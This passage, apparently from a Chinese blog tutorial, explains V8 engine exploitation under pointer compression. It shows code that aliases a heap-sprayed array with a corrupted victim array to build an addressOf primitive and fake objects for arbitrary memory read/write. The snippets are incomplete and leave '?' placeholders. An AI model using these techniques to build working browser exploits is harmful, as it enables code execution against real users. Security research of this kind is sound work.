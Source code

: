 **只能修改****`JSArray`对象的`element`字段**比如Issue 2046（https://blog.csdn.net/qq_61670993/article/details/136671278）。

  

这里只能修改`JSArray`对象的`element`字段其实不准确，这里是因为有些漏洞，我们必须写入 8 字节，而在指针压缩下`len|element`一起构成了 8 字节，所以修改`len`的同时会修改`element`，并且还无法错位写`element`，上面的示例漏洞就是这样的。

> 这里其实可以将`element`修改为`1`，然后选几个区域进行爆破，但是成功率你懂的，反正我没成功过

  

这里就直接说结论了，这里被修改`element`字段的对象笔者称作`victim_array`

先利用通用堆喷技术创建一个`spray_array`，这里这里`spray_array`的类型为`element。`

`   `

var spray_array　= new Array(0xf700).fill({}); // 注意  
var element_start_addr = ?;  
var data_element_start_addr = element_start_addr + 7;  
var map_addr = data_element_start_addr + 0x1000;  
var fake_object_array_addr = map_addr + 0x1000;   
var save_fake_object_array_addr = fake_object_array_addr + 0x200;  

  

然后利用漏洞修改`victim_array`的`element`字段，使其指向`element_start_addr`：

  

var victim_array = [1.1, 1.1, 1.1, 1.1];  
// trigger bug ==> victim_array->element = element_start_addr  

  

此时就可以构造`addressOf`原语了。

> `spray_array`和`victim_array`指向的是同一个`element`，而`spray_array`将其解析为`element`类型数组，而`victim_array`将其解析为`double`数组

function addressOf(obj) {  
    spray_array[0] = obj;  
    return get_fl(victim_array[0]);  
}  

  

然后就考虑如何进行堆上的任意地址读写了，很简单其实，还是利用`spray_array`和`victim_array`的`element`指向的是同一块内存，所以利用`victim_array`在`element`上伪造一个对象，然后`spray_array`直接读取就获取这个伪造的对象了。

> 这里还可以更简单的，笔者搞复杂了，但是不管了

victim_array[(map_addr      		- data_element_start_addr) / 8] = pair_u32_to_f64(data_element_start_addr+0x200+1, ?); // 这里也可以直接照抄  
victim_array[(map_addr              - data_element_start_addr) / 8 + 1] = u64_to_f64(?);  
victim_array[(fake_object_addr      - data_element_start_addr) / 8] = pair_u32_to_f64(map_addr+1, 0x6cd);  
victim_array[(fake_object_addr      - data_element_start_addr) / 8 + 1] = pair_u32_to_f64(3, 0x20);  
victim_array[(save_fake_object_addr - data_element_start_addr) / 8] = pair_u32_to_f64(fake_object_addr+1, fake_object_addr+1);  

  
